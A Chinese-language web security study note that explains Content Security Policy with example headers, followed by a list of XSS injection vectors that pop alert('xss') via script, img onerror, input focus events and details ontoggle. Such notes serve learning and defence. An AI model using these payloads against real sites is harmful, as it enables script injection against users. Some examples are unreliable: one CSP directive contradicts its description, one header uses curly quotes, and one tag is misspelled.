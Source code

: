 
### CSP 内容安全策略

CSP 本质上就是建立白名单，开发者明确告诉浏览器哪些外部资源可以加载和执行。我们只需要配置规则，如何拦截是由浏览器自己实现的。我们可以通过这种方式来尽量减少 XSS 攻击。

通常可以通过两种方式来开启 CSP：

 - 设置 HTTP Header 中的 Content-Security-Policy
 - 设置 meta 标签的方式 `<meta http-equiv="Content-Security-Policy">`

以设置 HTTP Header 来举例

 - 只允许加载本站资源

```
Content-Security-Policy: default-src ‘self’
```

 - 图片只允许加载 HTTPS 协议

```
Content-Security-Policy: img-src https://*
```

 - 允许加载任何来源框架

```
Content-Security-Policy: child-src 'none'
```

[CSP](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CSP) ( Content Security Policy )


## XSS注入方法

参考链接：https://xz.aliyun.com/t/4067

### `<scirpt>`

    <scirpt>alert("xss");</script>

### `<img>`

    <img src=1 onerror=alert("xss");>

### `<input>`

    <input onfocus="alert('xss');">
    
    竞争焦点，从而触发onblur事件
    <input onblur=alert("xss") autofocus><input autofocus>
    
    通过autofocus属性执行本身的focus事件，这个向量是使焦点自动跳到输入元素上,触发焦点事件，无需用户去触发
    <input onfocus="alert('xss');" autofocus>

### `<details>`

    <details ontoggle="alert('xss');">
    